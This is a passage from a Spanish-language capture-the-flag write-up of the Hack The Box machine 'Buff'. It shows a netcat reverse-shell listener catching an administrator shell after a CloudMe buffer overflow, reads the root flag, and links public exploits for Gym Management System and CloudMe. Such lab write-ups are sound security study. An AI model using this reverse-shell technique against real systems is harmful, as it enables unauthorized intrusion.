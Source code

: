 ### Buffer Overflow

Tenemos acceso al puerto 8888 de buff desde nuestra kali, solo nos quedaria ejecutar el exploit y ponernos a la escucha con netcat.

```console
root@kali:~# nc -lvp 4444
	listening on [any] 4444 ...
	10.10.10.198: inverse host lookup failed: Unknown host
	connect to [10.10.14.45] from (UNKNOWN) [10.10.10.198] 49737
	Microsoft Windows [Version 10.0.17134.1550]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	whoami
	buff\administrator

```

```console
	C:\Windows\system32>type \users\administrator\desktop\root.txt
	type \users\administrator\desktop\root.txt
	b1253f49dfa74a22347f4d8fba4adddf

```

---

<asciinema-player src="/htb/doctor/2.cast" cols="107" rows="24"></asciinema-player>

---

![Desktop View](https://media2.giphy.com/media/aHnfrW2KBuJTZa62v0/giphy.gif)

---

## Recursos 


| Topics                      | 
|:-----------------------------|
| [**Gym Management System 1.0 - Unauthenticated Remote Code Execution**](https://www.exploit-db.com/exploits/48506)         |
| [**Chisel**](https://github.com/jpillora/chisel)              | 
| [**CloudMe Sync 1.11.0 - Local Buffer Overflow**](https://www.exploit-db.com/exploits/44470) | 
